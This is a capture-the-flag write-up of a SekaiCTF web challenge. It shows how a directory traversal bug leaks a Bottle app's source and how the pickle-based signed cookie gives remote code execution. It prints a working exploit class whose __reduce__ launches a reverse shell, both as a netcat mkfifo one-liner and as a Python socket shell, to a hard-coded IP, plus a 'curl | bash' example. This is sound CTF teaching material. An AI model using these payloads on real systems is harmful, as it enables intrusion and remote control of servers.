







## Problem statement

Author hints that flag is executable


The website is vulnerable to directory traversal


Pick /etc/self/procline to get the start application command



So the application source is located at /app/app.py


``` python
from bottle import route, run, template, request, response, error
from config.secret import sekai
import os
import re


@route("/")
def home():
    return template("index")


@route("/show")
def index():
    response.content_type = "text/plain; charset=UTF-8"
    param = request.query.id
    if re.search("^../app", param):
        return "No!!!!"
    requested_path = os.path.join(os.getcwd() + "/poems", param)
    try:
        with open(requested_path) as f:
            tfile = f.read()
    except Exception as e:
        return "No This Poems"
    return tfile


@error(404)
def error404(error):
    return template("error")


@route("/sign")
def index():
    try:
        session = request.get_cookie("name", secret=sekai)
        if not session or session["name"] == "guest":
            session = {"name": "guest"}
            response.set_cookie("name", session, secret=sekai)
            return template("guest", name=session["name"])
        if session["name"] == "admin":
            return template("admin", name=session["name"])
    except:
        return "pls no hax"


if __name__ == "__main__":
    os.chdir(os.path.dirname(__file__))
    run(host="0.0.0.0", port=8080)
```

If run the code at local change the set_cookie’s session argument to {”name”:”admin”} will get the admin page but it just a trap

The hint said flag is executable, meaning RCE is possible.

## Basic
Let's have a look at Python Bottle

### Python Bottle


#### Bottle signed cookie

Bottle first:

- pickle.dumps([name, value], -1) then base64 encode → encoded
- hmac encrypt the secret seperately then base64 encode → signature
- add ‘!’ at the first char and ‘?’ in between signature

Cookie format: !__secret_hmac_base64__==?__pickle_name_value_base64__==

#### Bottle verify cookie

get_cookie:

- …
- base64 decode the pickled then call pickle.loads(pickle.dumps([’name’, “Pickle dumps containing RCE here”], -1))

We have controlled the value input through cookie

### Pickle exploit
[Ref](https://davidhamann.de/2020/04/05/exploiting-python-pickle/)
Byte-stream created by pickle.dumps contains opcodes that are then one-by-one executed as soon as we load the pickle back in. If you are curious how the instructions in this pickle look like, you can use pickletools to create a disassembly: pickletools.dis(pickled)

```python
>>> pickled = pickle.dumps(['pickle', 'me', 1, 2, 3])
>>> import pickletools
>>> pickletools.dis(pickled)
    0: \x80 PROTO      4
    2: \x95 FRAME      25
   11: ]    EMPTY_LIST
   12: \x94 MEMOIZE    (as 0)
   13: (    MARK
   14: \x8c     SHORT_BINUNICODE 'pickle'
   22: \x94     MEMOIZE    (as 1)
   23: \x8c     SHORT_BINUNICODE 'me'
   27: \x94     MEMOIZE    (as 2)
   28: K        BININT1    1
   30: K        BININT1    2
   32: K        BININT1    3
   34: e        APPENDS    (MARK at 13)
   35: .    STOP
```

pickle still allows you to define a custom behavior for the pickling process for your class instances.


```
The __reduce__() method takes no argument and shall return either a string or 
preferably a tuple (the returned object is often referred to as the “reduce value”). 
[…] When a tuple is returned, it must be between two and six items long. 
Optional items can either be omitted, or None can be provided as their value. 
The semantics of each item are in order:

A callable object that will be called to create the initial version of the object.
A tuple of arguments for the callable object. An empty tuple must be given if the 
callable does not accept any argument. […]
```

So by implementing `__reduce__` in a class which instances we are going to pickle, we can give the pickling process a callable plus some arguments to run. While intended for reconstructing objects, we can abuse this for getting our own reverse shell code executed.

So if any value in the array pass into pickle.dumps is an instance containing `__reduce__`(…) function, that reduce will be executed when calling pickle.loads(…). And the `__reduce__`(…) implement demand returns an tuple with first value an executable, callable method in python for example (os.system, eval or any function), the second value is argument of the callable.

So by implement reduce method that `return (eval, ('__import__("os").popen("curl xxx|bash")',))` , we can execute code on the server.

## The exercise step
### Generate cookie 
Add an class definition with `__reduce__` method (that return reverse shell python code) to create an instance, then pass the instance to the session1[’name’] that passed into set_cookie.

```python
class RCE:
    def __reduce__(self):
        # 14.186.174.164
        cmd = ('rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 14.186.174.164 55555 > /tmp/f')
        return os.system, ((f"""python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("14.186.174.164",55555));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'"""),)

# Test
@route("/sign")
def index():
    session = request.get_cookie("name", secret=sekai)
    print(session["name"])
    if not session or session["name"] == "guest":
        objWithReduce = RCE()
        session = {"name": "guest"}
        session1 = {"name": objWithReduce}
        response.set_cookie("name", session1, secret=sekai)
        return template("guest", name=session["name"])
    if session["name"] == "admin":
        return template("admin", name=session["name"])
```

Running server and go to /sign with the Guest cookie to get the new Cookie with RCE instance dumps




<!--  -->
In Attackbox, open netcat listener at port 55555:


Request to the SekaiCTF with RCE cookie


Netcat listener now receive reverse shell :smile: :


## Reference Links

Reverse Shell / Bind Shell: 

[https://www.hackingtutorials.org/networking/hacking-with-netcat-part-1-the-basics/](https://www.hackingtutorials.org/networking/hacking-with-netcat-part-1-the-basics/)

[https://www.hackingtutorials.org/networking/hacking-netcat-part-2-bind-reverse-shells/](https://www.hackingtutorials.org/networking/hacking-netcat-part-2-bind-reverse-shells/)

[https://www.hackingtutorials.org/networking/hacking-with-netcat-part-3-advanced-techniques/](https://www.hackingtutorials.org/networking/hacking-with-netcat-part-3-advanced-techniques/)

Python Pickle Module `__reduce__` implements allow RCE:

[https://davidhamann.de/2020/04/05/exploiting-python-pickle/](https://davidhamann.de/2020/04/05/exploiting-python-pickle/)

Python Bottle get_cookie set_cookie using pickle.loads and pickle.dumps in its chain of encrypt/encode steps

[https://github.com/bottlepy/bottle/blob/master/bottle.py](https://github.com/bottlepy/bottle/blob/master/bottle.py) (ctrl+f set_cookie, get_cookie)


